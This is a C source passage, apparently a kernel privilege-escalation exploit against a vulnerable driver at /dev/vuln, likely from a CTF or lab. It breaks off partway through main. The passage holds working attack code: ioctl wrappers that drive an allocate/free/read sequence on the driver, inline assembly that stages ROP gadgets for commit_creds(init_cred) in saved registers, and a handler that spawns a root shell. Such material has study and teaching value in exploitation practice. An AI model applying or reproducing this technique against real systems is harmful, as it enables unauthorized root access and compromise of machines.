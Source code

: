 ```c
void get_shell(int signum) {
    printf("uid: %d\n", getuid());
    system("/bin/sh");
    while(1);
}

int driver_fd;
int open_dev(char *path) {
  printf("Opening device\n");
  int fd = open(path, O_RDWR);

  if (fd == -1) {
    printf("Failed to open device\n");
    return 2;
  } else {
    printf("Opened device\n");
  }

  return fd;
}

int kfree() { 
    ioctl(driver_fd, FREE, NULL); 
}

int kread(char *buf) {
  ioctl(driver_fd, USE_READ, buf);
  return 0;
}

int kalloc(size_t size) {
  int val = 0;
  printf("Allocating kernel buffer\n");
  val = ioctl(driver_fd, ALLOC, &size);
  printf("val = %d\n", val);
  if (val < 0) {
    printf("Failed to allocate memory : 0x%08x\n", val);
  }
  return val;
}

static inline void set_pt_regs() {
    asm volatile(
        ".intel_syntax noprefix;"
        "mov r15, %[pop_rdi];"
        "mov r14, %[init_cred];"
        "mov r13, %[ret_18];"
        "mov r12, %[ret];"
        "mov r10, %[commit_creds];"
        "mov r9,  %[fork];\n"
        "mov r8,  %[msleep];\n"
        :
        :  [pop_rdi] "r" (POP_RDI), [init_cred] "r" (INIT_CRED), [ret_18] "r" (RET_18h), [ret] "r" (RET), [commit_creds] "r" (COMMIT_CREDS), [fork] "r" (SYS_FORK), [msleep] "r" (MSLEEP)
    );
}

int main(int argc, char *argv[]) {
    driver_fd = open_dev("/dev/vuln");
    char buf[100] = {0};

    kalloc(0x20);
    kfree();
```